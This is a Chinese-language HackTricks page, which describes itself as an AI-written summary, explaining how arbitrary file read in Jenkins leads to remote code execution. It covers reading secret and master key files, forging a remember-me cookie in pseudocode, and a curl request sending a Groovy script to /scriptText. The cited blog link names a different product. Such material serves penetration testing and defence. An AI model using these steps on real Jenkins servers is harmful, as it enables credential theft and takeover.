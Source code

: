# Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在这篇博客文章中，可以找到将 Jenkins 中的本地文件包含漏洞转化为 RCE 的绝佳方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个 AI 创建的摘要，内容涉及如何利用任意 cookie 的构造来获取 RCE，直到我有时间自己创建摘要为止：

### 攻击前提

* **功能要求：** 必须启用“记住我”（默认设置）。
* **访问级别：** 攻击者需要整体/读取权限。
* **秘密访问：** 能够读取关键文件中的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

* 访问每个用户的用户配置和秘密，位于 `$JENKINS_HOME/users/*.xml`，以收集：
* **用户名**
* **用户种子**
* **时间戳**
* **密码哈希**

**密钥提取**

* 提取用于签署 cookie 的加密密钥：
* **秘密密钥：** `$JENKINS_HOME/secret.key`
* **主密钥：** `$JENKINS_HOME/secrets/master.key`
* **MAC 密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie 伪造

**令牌准备**

*   **计算令牌过期时间：**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 当前时间加一小时
```
{% endcode %}
*   **连接令牌数据：**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 密钥解密**

*   **解密 MAC 密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为 AES128 密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密 .mac 文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

*   **计算 HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey)  // 使用令牌和 MAC 密钥计算 HMAC
tokenSignature = bytesToHexString(mac)  // 将 MAC 转换为十六进制字符串
```

**Cookie 编码**

*   **生成最终 Cookie：**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 编码 cookie 数据
```
{% endcode %}

#### 第三步：代码执行

**会话认证**

* **获取 CSRF 和会话令牌：**
* 向 `/crumbIssuer/api/json` 发出请求以获取 `Jenkins-Crumb`。
* 从响应中捕获 `JSESSIONID`，该 ID 将与记住我 cookie 一起使用。

**命令执行请求**

*   **发送带有 Groovy 脚本的 POST 请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 脚本可用于在 Jenkins 环境中执行系统级命令或其他操作。

提供的示例 curl 命令演示了如何使用必要的头和 cookie 向 Jenkins 发出请求，以安全地执行任意代码。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
